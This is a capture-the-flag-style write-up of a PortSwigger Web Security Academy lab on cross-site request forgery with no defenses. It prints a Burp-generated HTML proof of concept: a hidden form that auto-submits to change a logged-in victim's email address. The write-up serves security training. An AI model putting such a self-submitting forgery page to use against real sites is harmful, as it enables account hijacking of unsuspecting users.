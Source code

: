 # CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf

---------------------------------------------

There is a function to update the user's email:



![img](images/1.png)

It is a POST request. Clicking "Engagement tools" > "Generate CSRF PoC", it generates an HTML PoC.



![img](images/2.png)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac5004c04ed095e819302fc004d00f6.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
